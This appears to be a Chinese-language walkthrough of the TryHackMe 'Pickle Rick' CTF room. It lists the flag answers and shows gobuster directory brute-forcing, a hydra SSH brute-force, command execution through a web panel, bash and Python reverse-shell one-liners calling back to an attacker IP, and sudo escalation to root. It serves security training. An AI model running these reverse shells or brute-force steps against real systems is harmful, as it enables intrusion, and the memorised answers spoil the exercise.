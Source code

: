 ![](assets/web-pickle-rick/file-20241023102615.png)

# Pickle-Rick: 一个完整的挑战
这是一个CTF靶场，这个挑战需要你扮演Morty在目标主机上找到**三种成分（ingredients）** 帮助Rick
从白菜**变回人类**。

- 挑战前需要通过访问Web开始。
- 找到三种`ingredients`
## 此挑战需要回答以下问题

::: details **Task-1** 药剂的第一种成分是什么？
答案：`mr. meeseek hair`
:::
::: details **Task-2** 药剂的第二种成分是什么？
答案：`1 jerry tear`
:::
::: details **Task-3** 药剂的最后一种成分是什么？
答案：`fleeb juice`
:::

## 解题思路总结

[Rickle-Rick](assets/web-pickle-rick/Rickle-Rick.canvas)
![](assets/web-pickle-rick/file-20241024212525.png)
## 详细过程

![](assets/web-pickle-rick/file-20241023104524.png)

信息收集是渗透测试中的重要环节，我们渗透测试过程中要注意不要错误任何细节。
### 登陆web首页

登陆首页后，没有没有发现啥有用的信息，但是通过查看网页源码发现一个用户名：

![](assets/web-pickle-rick/file-20241024214839.png)

除此之外没有发现任何信息。

### 目录爆破

目录爆破是对任何web应用渗透的必须做的工作，这可以帮助你发现整个网站的路径和隐藏的文件，我在此做了多次爆破，以便收集到尽可能有用的信息：

- 目录爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
:::

- 文件爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x x php,txt,zip,html,bak
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html,bak
```
:::

>[!TIP] 注意⚠️
>
>如果在此没得到什么有用的信息，可能是你的字典选择错误，选对字典对我们获取有用的信息非常重要。我渗透的时候因为选错字典走了弯路。

**目录爆破结果**

目录爆破结果，因首先关注状态码为`200`的，其次关注状态码为`300` 的

```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```
### 端口扫描

通过`nmap`端口扫描，发现此主机开启了TCP`80`、`22`端口，尝试爆破22端口，**未成功**。

```bash
hydra -l R1ckRul3s -P /usr/share//usr/share/wordlists
/rockyou.txt  ssh://10.10.204.241
```

>[!NOTE]
>之所以在此尝试爆破`ssh`密码,是因为我在目录爆破时选错字典，导致未发现有用信息😭。但是一般情况，爆破`ssh` 密码很难做到不是第一选择。

### 登陆Web应用

回到目录爆破结果，
```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```

我们首先关注`login.php` 因为这一般是登陆界面：

![](assets/web-pickle-rick/file-20241024222954.png)


其次我们关注`/robots.txt`在`/robots`中发现了一串字符串 `Wubbalubbadubdub`**（“robots.txt”文件通常包含Web开发人员不希望搜索引擎找到和显示的目录）,**

到现在我们已知了用户密码，也找到了登陆界面，因此我们应该尝试登陆：
- 用户名：`R1ckRul3s`
- 密码：`Wubbalubbadubdub`
输入勇猛密码后我们来到了`Command Panel` 命令行页面：
![](assets/web-pickle-rick/file-20241023120401.png)


### 尝试执行命令并获取第一种成分

在命令航执行命令：
```bahs
whoami && pwd && ls
```

我们知道当前用户是`www-data`,当前路径是`/var/www/html`还可以发现一些目录爆破没有发现的文件：
![](assets/web-pickle-rick/file-20241023120724.png)

我们尝试访问这些文件，可以发现一些提示，最终在文件命最长的文件中找到第一种成分。
![](assets/web-pickle-rick/file-20241023123436.png)

![](assets/web-pickle-rick/file-20241023123742.png)
### 尝试进行shell反弹

既然可以在web上执行命令，那就可以尝试进行shell 反弹，通过终端远程连接到主机，尝试 执`nc`，界面无反应，尝试执行`python python --version` 有反应。再此我们可以选择两种方式（除nc外）进行反弹：

```sh [bash]
bash -C 'bash -i >& /dev/tcp/**Local-IP**/443 0>&1 '
```

```sh [python]
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

>[!IMPORTANT] Localhost
>本地主机一定要监听与上面命令内容一致的端口，在此监听的是`443`
>`nc -nvlp 443`
>

### 获取第二种成分

成功连接终端后，我们可以执行`cd`命令跳转到`/home`下，或直接执行`ls /home`  命令，在此会发现在`rick`用户目录。跳转到该目录下，会发现`second  ingredients` 文件，使用`cat`命令查看此文件会发现第二种成分。

```bash
cat /home/rick/second\ ingredients # or  cat /home/rick/‘second ingredients‘

1 jerry tear
```

### 提权并获得第三种成分

目前已获取到两种成分，只要获取到剩下的最后一种成分，就可以答完提名，目前我们可以从整个答题过程感受到，这是一个逐渐突破边界，并获取更高权限的过程，因此我们接下来应该获取到`root`权限。

要获取`root`权限，我们通常要不断尝试才可能成功，在这里我从最好用最常见的开始尝试，直接查看当前用户的`sudo`权限配置:

```bash
sudo -l
```

发现此用户执行`sudo` 不需要密码，因此可以直接通过`sudo`命令提权：

![](assets/web-pickle-rick/file-20241024231405.png)

::: code-group
```bash [命令1] 
sudo bash -p  
```

```bash [命令2]
sudo bash 
```

:::

到此，我们通过`whoami` 命令查看，可知我们目前已获取到`root`权限，让我们跳转到`/root`下，找到`3rd.txt`文件，`cat` 命令查看该文件，获取第三种成分：`fleeb juice`
![](assets/web-pickle-rick/file-20241024231619.png)


## 总结

通过本次挑战复习了以下知识点和技能：
- 渗透测试的思维方式
- gobuser 目录爆破仅能
- 目标主机无`nc`情况下的shell反弹
- linux提权
- `robots.txt` 目录的做用



https://complexsecurity.io/try-hack-me/pickle-rick




```cardlink
url: https://complexsecurity.io/try-hack-me/pickle-rick
title: "Pickle Rick - TryHackMe Complete Walkthrough — Complex Security"
description: "In this room, we will exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle"
host: complexsecurity.io
favicon: https://images.squarespace-cdn.com/content/v1/604cef0922e44a51184bef23/bedf99dd-8d81-4ba1-b461-eb359392c045/favicon.ico?format=100w
image: http://static1.squarespace.com/static/604cef0922e44a51184bef23/604d36b3a02885259026eb6e/6079b27589856b0a0ec2f3eb/1625529831782/header.jpg?format=1500w
```









